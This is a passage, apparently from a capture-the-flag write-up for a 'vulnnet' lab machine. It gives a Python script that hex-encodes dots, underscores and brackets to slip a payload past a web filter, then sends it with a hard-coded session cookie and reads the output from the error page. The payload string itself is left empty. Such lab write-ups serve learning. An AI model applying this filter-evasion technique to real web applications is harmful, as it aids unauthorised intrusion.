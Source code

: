 Why you turn the `\` to `/`??

**To automate things, I'll write a python script:**
```py
#!/usr/bin/env python3
import requests
from bs4 import BeautifulSoup

def main():
    url = 'http://vulnnet.com:8080/'
    cookie = {'session': '.eJwljktqA0EMBe_S6yzUH_18mUEtqbEJJDBjr0Lu7g5ZvoLi1U851pnXvdye5ys_yvGIcitLu6FgGylOTjoitHNg5xqQbTBT0xyKUrWpByyaGNKJLbhqF_bOlqYZ64-7iaQjwlYARBliVtI1DKAKNCNOyD5m430EVHbI68rzv6bu6de5juf3Z35tIBHDu21f5pid564c4ksJjdJ8gRN6cPl9AzxzPqU.Y6ueZw.TlRTKTnukPYI-dSyqsD4r9Fgo3I'}

    dot = b'.'
    underscore = b'_'
    openBracket = b'['
    closeBracket = b']'

    encodedDot = '\\x' + dot.hex()
    encodedUnderscore = '\\x' + underscore.hex()
    encodedOpenBracket = '\\x' + openBracket.hex()
    encodedCloseBracket = '\\x' + closeBracket.hex()

    payload = """"""
    finalPayload = ''

    for character in payload:
        if character == '.':
            finalPayload += character.replace('.', encodedDot)
        elif character == '_':
            finalPayload += character.replace('_', encodedUnderscore)
        elif character == '[':
            finalPayload += character.replace('[', encodedOpenBracket)
        elif character == ']':
            finalPayload += character.replace(']', encodedCloseBracket)
        else:
            finalPayload += character

    requestResult = requests.get(url + finalPayload, cookies=cookie)

    if requestResult.status_code == 404:
        soup = BeautifulSoup(requestResult.text, 'html.parser')
        payloadResult = soup.b
        print(f'[+] Payload result:\n{payloadResult.get_text().strip()}')
    else:
        print(f'[-] The payload failed: {finalPayload}')

if __name__ == '__main__':
    main()
```
